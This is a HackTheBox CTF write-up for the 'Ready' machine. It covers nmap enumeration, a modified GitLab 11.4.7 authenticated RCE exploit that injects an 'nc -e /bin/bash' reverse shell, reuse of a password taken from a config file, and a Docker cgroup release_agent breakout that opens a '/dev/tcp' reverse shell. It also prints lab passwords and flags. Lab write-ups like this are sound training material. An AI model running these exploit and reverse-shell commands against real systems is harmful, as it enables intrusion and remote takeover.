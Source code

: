 +++
title = 'Ready '
date = '2021-05-15T20:57:00Z'
author = 's4ch'
description = 'Ready HackTheBox writeup'
summary = 'Ready  is a HackTheBox machine writeup featuring penetration testing techniques and security assessment.'
slug = 'ready'
draft = false

categories = [
    'writeups'
]
series = [
    'HackTheBox'
]
tags = [
    'ctf',
    'hackthebox',
    'penetration-testing',
    'writeup',
    'linux',
    'medium'
]

# Machine Information
difficulty = 'Medium'
platform = 'HackTheBox'
os = 'Linux'
points = '20'
release_date = '2021-05-15T20:57:00Z'

[cover]
    image = "/writeups/hackthebox/ready/ready.png"
    alt = "Ready HackTheBox Machine"
    caption = "Ready - Medium Linux Machine"
    relative = false

# Show specific elements
ShowReadingTime = true
ShowWordCount = true
showtoc = true
tocopen = false
+++
# Information

- **Name:** Ready
- **Profile:** [www.hackthebox.eu](https://app.hackthebox.eu/machines/304)
- **Difficulty:** Medium
- **OS:** Linux
- **Points:** 30

## Overview

Install tools used in this WU on BlackArch Linux:

```
$ sudo pacman -S nmap exploit-db pwncat
```

## Network enumeration

Port and service scan with nmap:

```
# Nmap 7.91 scan initiated Fri Feb  5 18:56:03 2021 as: nmap -sSVC -p- -v -oA nmap_scan 10.10.10.220
Nmap scan report for 10.10.10.220
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
|_http-favicon: Unknown favicon MD5: F7E3D97F404E71D302B3239EEF48D5F2
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb  5 18:56:34 2021 -- 1 IP address (1 host up) scanned in 30.44 seconds
```

## Web discovery

We have a Gitlab server at http://10.10.10.220:5080

We can register and once authenticated at http://10.10.10.220:5080/help
we can find the version is 11.4.7.

`searchsploit gitlab 11.4.7` shows us 3 RCE.

Exploring for public projects at http://10.10.10.220:5080/explore/projects
we can see `dude/ready-channel`.

## Web exploitation

All the exploits are dirty and broken so I picked the first and had to modify it:

```plaintext
$ searchsploit -p 49334.py
  Exploit: GitLab 11.4.7 - RCE (Authenticated)
      URL: https://www.exploit-db.com/exploits/49334
     Path: /usr/share/exploitdb/exploits/ruby/webapps/49334.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

$ cp /usr/share/exploitdb/exploits/ruby/webapps/49334.py .
```

`diff /usr/share/exploitdb/exploits/ruby/webapps/49334.py 49334.py`

```diff
22c22
< parser.add_argument('-P', help='reverse shell port', required=True)
---
> parser.add_argument('-x', help='reverse shell port', required=True)
29c29
< local_port = args.p
---
> local_port = args.x
59c59
<     lpush resque:gitlab:queue:system_hook_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'|""" + f'nc {local_ip} {local_port}' + """ \\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created_at\\":1608799993.1234567,\\"enqueued_at\\":1608799993.1234567}"
---
>     lpush resque:gitlab:queue:system_hook_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'|""" + f'nc {local_ip} {local_port}' + ' -e /bin/bash' + """ \\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created_at\\":1608799993.1234567,\\"enqueued_at\\":1608799993.1234567}"
```

Then we can launch the exploit.

```plaintext
$ python 49334.py -u cyfun -p password -g http://10.10.10.220 -l 10.10.14.172 -x 9999
```

We receive the reverse shell on our listener:

```
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.220:59942 (family 2/IPv4, TCP)
id
uid=998(git) gid=998(git) groups=998(git)
```

Let's find the flag:

```
$ find /home -name user.txt -type f
/home/dude/user.txt
```

## Privilege Escalation of Machine : from git to root

We are in a docker container:

```plaintext
git@gitlab:~$ ls -lh /.dockerenv
-rwxr-xr-x 1 root root 0 Dec  1 12:41 /.dockerenv
```

There is the password of root (container).

```
git@gitlab:~$ cat /root_pass
YG65407Bjqvv9A0a8Tm_7w
```
In `/var/backup` there is a `docker-compose.yml` explaining the origin of
`root_pass`.

```yml
version: '2.4'

services:
  web:
    image: 'gitlab/gitlab-ce:11.4.7-ce.0'
    restart: always
    hostname: 'gitlab.example.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://172.19.0.2'
        redis['bind']='127.0.0.1'
        redis['port']=6379
        gitlab_rails['initial_root_password']=File.read('/root_pass')
    networks:
      gitlab:
        ipv4_address: 172.19.0.2
    ports:
      - '5080:80'
      #- '127.0.0.1:5080:80'
      #- '127.0.0.1:50443:443'
      #- '127.0.0.1:5022:22'
    volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
    privileged: true
    restart: unless-stopped
    #mem_limit: 1024m

networks:
  gitlab:
    driver: bridge
    ipam:
      config:
        - subnet: 172.19.0.0/16
```

There is a password in gitlab config:

```
git@gitlab:/opt/backup$ grep -v '^#' gitlab.rb | tr -d '\n' && echo
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

Then we can try password reuse on the root account.

```
git@gitlab:/opt/backup$ su root
Password:
root@gitlab:/opt/backup# cd
root@gitlab:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Now we have to escape from the container.

I used the second PoC from [HackTricks - Docker breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#i-own-root)

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.172/8888 0>&1" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

And received the reverse shell:

```plaintext
$ pwncat -l 8888 -vv
INFO: Listening on :::8888 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:8888 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.220:34958 (family 2/IPv4, TCP)
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@ready:/# id
uid=0(root) gid=0(root) groups=0(root)
root@ready:/# cat /root/root.txt
b7f98681505cd39066f67147b103c2b3
```
